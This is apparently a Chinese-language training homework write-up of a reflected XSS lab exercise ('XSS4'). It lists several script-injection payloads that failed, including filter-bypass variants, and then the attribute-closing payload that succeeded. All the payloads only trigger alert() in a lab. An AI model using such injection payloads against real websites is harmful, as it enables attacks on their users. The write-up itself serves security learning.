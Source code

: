 # 安恒信息第一篇期培训作业

# XSS4

进入实验

![image-20210106202455261](../../..\image\image-20210106202455261.png)

看标签页，说是反射型xss

![image-20210106202613988](D:\mygit\notes\image\image-20210106202613988.png)

我试了几个payload

```<>
<script>alert('hello')</script>
<scr<script>ipt>alert('hello')</scr</script>ipt>
<sCRiPt>alert('hello')</ScRiPt>
<img src='#' onerror='alert('hello')'>
```

 然后都不行

所以我有了个想法

剑走偏锋！！！！！

看看是不是可以使用闭合的方式去进行构造

盲猜它的构造语句是<" ">这样的

然后我就这样

<"">\<script>alert('hello')\</script><"">

然后payload就是

```js
"><script>alert('hello')</script><"
```

![image-20210106203545944](../../..\image\image-20210106203545944.png)

然后就是~~~

嘿嘿

![image-20210106204101523](../../..\image\image-20210106204101523.png)







